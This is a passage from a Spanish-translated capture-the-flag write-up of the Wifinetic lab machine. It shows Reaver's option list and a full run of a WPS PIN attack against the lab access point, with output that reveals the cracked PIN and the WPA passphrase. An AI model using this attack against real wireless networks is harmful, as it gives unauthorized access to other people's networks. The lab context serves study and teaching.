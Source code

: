 ```
        -A, --no-associate              Do not associate with the AP (association must be done by another application)
        -N, --no-nacks                  Do not send NACK messages when out of order packets are received
        -S, --dh-small                  Use small DH keys to improve crack speed
        -L, --ignore-locks              Ignore locked state reported by the target AP
        -E, --eap-terminate             Terminate each WPS session with an EAP FAIL packet
        -J, --timeout-is-nack           Treat timeout as NACK (DIR-300/320)
        -F, --ignore-fcs                Ignore frame checksum errors
        -w, --win7                      Mimic a Windows 7 registrar [False]
        -K, --pixie-dust                Run pixiedust attack
        -Z                              Run pixiedust attack

Example:
        reaver -i wlan0mon -b 00:90:4C:C1:AC:21 -vv
```

Necesito el nombre de la interfaz en modo monitor y el BSSID del AP de destino. El ejemplo en la parte inferior `reaver -i wlan0mon -b 00:90:4C:C1:AC:21 -vv`muestra que el BSSID parece una dirección MAC y, de hecho, [lo es](https://en.wikipedia.org/wiki/Service\_set\_\(802.11\_network\)) .

**Ejecutar atracador**

El AP de destino es `wlan0`, que tiene una MAC del `iw`comando anterior de `02:00:00:00:00:00`. La interfaz en modo monitor es `mon0`. La mayoría de `reaver`los tutoriales muestran el uso del `wash`comando para obtener el BSSID/MAC. Esto no funciona aquí y lo veré en [Beyond Root](https://0xdf.gitlab.io/2023/09/16/htb-wifinetic.html#beyond-root) .

Los usaré para ejecutar `reaver`:

```
netadmin@wifinetic:~$ reaver -i mon0 -b 02:00:00:00:00:00 -vv

Reaver v1.6.5 WiFi Protected Setup Attack Tool
Copyright (c) 2011, Tactical Network Solutions, Craig Heffner <cheffner@tacnetsol.com>

[+] Waiting for beacon from 02:00:00:00:00:00
[+] Switching mon0 to channel 1
[+] Received beacon from 02:00:00:00:00:00
[+] Trying pin "12345670"
[+] Sending authentication request
[!] Found packet with bad FCS, skipping...
[+] Sending association request
[+] Associated with 02:00:00:00:00:00 (ESSID: OpenWrt)
[+] Sending EAPOL START request
[+] Received identity request
[+] Sending identity response
[+] Received M1 message
[+] Sending M2 message
[+] Received M3 message
[+] Sending M4 message
[+] Received M5 message
[+] Sending M6 message
[+] Received M7 message
[+] Sending WSC NACK
[+] Sending WSC NACK
[+] Pin cracked in 2 seconds
[+] WPS PIN: '12345670'
[+] WPA PSK: 'WhatIsRealAnDWhAtIsNot51121!'
[+] AP SSID: 'OpenWrt'
[+] Nothing done, nothing to save.
```
